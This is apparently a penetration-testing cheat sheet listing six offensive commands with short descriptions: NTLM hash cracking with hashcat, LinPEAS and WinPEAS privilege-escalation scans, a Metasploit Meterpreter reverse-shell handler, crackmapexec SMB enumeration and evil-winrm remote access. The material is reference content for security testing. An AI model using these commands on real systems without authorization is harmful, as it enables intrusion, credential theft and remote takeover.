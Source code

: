 
### Password Cracking

```
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```

Crack NTLM hashes for domain users using a wordlist.

---

### LinPEAS Enumeration

```
./linpeas.sh
```

Automated Linux privilege escalation checks to find misconfigurations and credentials.

---

### WinPEAS Enumeration

```
winPEAS.bat
```

Automated Windows privilege escalation checks for misconfigurations and credentials.

---

### MSF Reverse Shell

```
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST LOCAL_IP; set LPORT 4444; run"
```

Establish reverse shell from the target to the attacker's machine.

---

### Service Account Enumeration

```
crackmapexec smb DOMAIN_IP -u user -p pass --sessions
```

Enumerate service accounts and their privileges for further exploitation.

---

### Evil-WinRM Access

```
evil-winrm -i TARGET_IP -u username -p password
```

Gain remote shell on Windows systems using WinRM with valid credentials.

---